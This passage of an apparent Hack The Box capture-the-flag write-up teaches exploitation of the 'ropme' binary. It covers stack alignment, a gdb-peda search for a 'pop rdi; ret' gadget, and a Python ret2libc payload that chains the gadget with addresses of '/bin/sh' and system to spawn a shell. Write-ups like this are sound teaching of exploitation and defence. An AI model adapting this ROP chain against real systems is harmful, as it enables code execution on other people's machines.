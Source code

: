 So what do we do? First, we have to make sure the stack pointer is 16 bytes aligned and not 8 bytes aligned like it is right now.
Because as of now, when we `ret` to `system` the stack pointer ends with `8` and we need it to end with `0` (in hex, if the least-significant-bit is zero, the number is a multiple of 16).

How do we get there? well, if we think about it for a second, in the end-result exploit we will need to pass an argument to `RDI` before calling system, so if we could first `ret` to some instruction that does something like `pop rdi; ret`, our stack will be 16 bytes aligned! (Do you see why?)

So we are looking for a ROP gadget, preferably one that is in a location which is not randomized by ASLR.
PEDA (a nice gdb plugin) provides a nice way of looking for gadgets via a string.
```
gdb-peda$ info proc mappings
process 31239
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
            0x400000           0x401000     0x1000        0x0 /media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme/ropme
            0x600000           0x601000     0x1000        0x0 /media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme/ropme
            0x601000           0x602000     0x1000     0x1000 /media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme/ropme
      0x7ffff79e4000     0x7ffff7bcb000   0x1e7000        0x0 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7bcb000     0x7ffff7dcb000   0x200000   0x1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7dcb000     0x7ffff7dcf000     0x4000   0x1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7dcf000     0x7ffff7dd1000     0x2000   0x1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7dd1000     0x7ffff7dd5000     0x4000        0x0
      0x7ffff7dd5000     0x7ffff7dfc000    0x27000        0x0 /lib/x86_64-linux-gnu/ld-2.27.so
      0x7ffff7fdf000     0x7ffff7fe1000     0x2000        0x0
      0x7ffff7ff7000     0x7ffff7ffa000     0x3000        0x0 [vvar]
      0x7ffff7ffa000     0x7ffff7ffc000     0x2000        0x0 [vdso]
      0x7ffff7ffc000     0x7ffff7ffd000     0x1000    0x27000 /lib/x86_64-linux-gnu/ld-2.27.so
      0x7ffff7ffd000     0x7ffff7ffe000     0x1000    0x28000 /lib/x86_64-linux-gnu/ld-2.27.so
      0x7ffff7ffe000     0x7ffff7fff000     0x1000        0x0
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]
  0xffffffffff600000 0xffffffffff601000     0x1000        0x0 [vsyscall]
gdb-peda$ ropsearch "pop rdi" 0x400000           0x401000
Searching for ROP gadget: 'pop rdi' in range: 0x400000 - 0x401000
0x004006d3 : (b'5fc3')	pop rdi; ret
```

This is good because now we can put something on the stack that will be `pop`ed to `RDI`, and then return to an arbitrary address. I will keep in mind that the gadget I found is in a location that is not randomized by ASLR and may be very handy when crafting out final exploit.

Our current exploit:

```python
import struct

def ptr(n):
    return struct.pack("Q", n)

PAD = "A" * 72
gadget_pop_rdi_ret = ptr(0x4006d3)


system_addr = ptr(0x7ffff7a33440)
binsh_addr= ptr(0x7ffff7b97e9a)

payload = PAD
payload += gadget_pop_rdi_ret   # ret to here
payload += binsh_addr           # this will be popped to RDI
payload += system_addr          # return here with stack aligned
```

[1]: https://linux.die.net/man/3/puts
[2]: https://linux.die.net/man/3/fflush
[3]: https://linux.die.net/man/3/fgets
[4]: https://libc.blukat.me